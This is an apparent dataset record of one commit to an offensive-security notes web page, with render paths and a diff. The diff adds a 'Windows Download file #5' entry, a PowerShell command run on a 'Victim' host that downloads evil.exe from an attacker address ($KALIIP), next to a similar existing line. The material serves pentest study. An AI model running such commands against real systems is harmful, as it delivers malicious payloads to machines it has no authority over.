

Before and after one commit to JeffGThompson/offsec-notes.io, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 8562-9485 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Changes of the day

```diff
--- a/index.html
+++ b/index.html
@@ -420,6 +420,9 @@ rpcclient $> exit
 <p id="info">Windows Download file #4</p>
 <h4>Victim</h4>
 <p id="codebox">C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe Invoke-WebRequest -OutFile evil.exe -Uri http://$KALIIP/evil.exe </p>
+<p id="info">Windows Download file #5</p>
+<h4>Victim</h4>
+<p id="codebox">powershell.exe -c "iwr http://$KALIIP/evil.exe -OutFile C:\temp\evil.exe" </p>
 
 
 
```
